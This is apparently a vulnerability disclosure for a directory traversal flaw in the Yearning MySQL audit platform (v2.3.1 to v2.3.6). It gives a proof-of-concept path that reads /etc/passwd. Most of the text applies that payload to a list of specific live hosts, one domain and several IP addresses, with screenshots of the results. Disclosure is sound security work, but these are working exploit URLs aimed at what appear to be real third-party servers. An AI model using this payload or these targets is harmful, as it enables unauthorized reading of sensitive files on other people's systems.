 # yearning has arbitrary file read vulnerability

## Overview

Manufacturer's website information：http://yearning.io/

## 1. Affected version

version: v2.3.1 Interstellar GA 

version: v 2.3.2 Interstellar GA 

version: v 2.3.4 Neptune 

version: v 2.3.5 Neptune

version: v 2.3.6 Neptune

## 2.Vulnerability details

POC

```
/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```



version: v2.3.1 Interstellar GA 

https://mysql.zb-sx.cn/#/login

![image-20220308110341311](img/image-20220308110341311.png)

https://mysql.zb-sx.cn/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

![image-20220308110402638](img/image-20220308110402638.png)



version: v 2.3.2 Interstellar GA 

http://18.162.92.125/#/login

![image-20220308132832379](img/image-20220308132832379.png)

http://18.162.92.125/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

![image-20220308132924261](img/image-20220308132924261.png)

version: v 2.3.4 Neptune

![image-20220308133058103](img/image-20220308133058103.png)

http://47.93.26.226:9000/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

![image-20220308133131271](img/image-20220308133131271.png)

version: v 2.3.5 Neptune

http://39.100.157.58:8001/#/login

![image-20220308133321571](img/image-20220308133321571.png)

http://39.100.157.58:8001/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

![image-20220308133346233](img/image-20220308133346233.png)

version: v 2.3.6 Neptune

http://182.92.66.166:8086/#/login

![image-20220308133438261](img/image-20220308133438261.png)

http://182.92.66.166:8086/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

![image-20220308133520192](img/image-20220308133520192.png)



## Vulnerability impact

Yearning is a MySQL audit platform. There is a directory traversal vulnerability in Yearning, which can be used by attackers to obtain sensitive information.

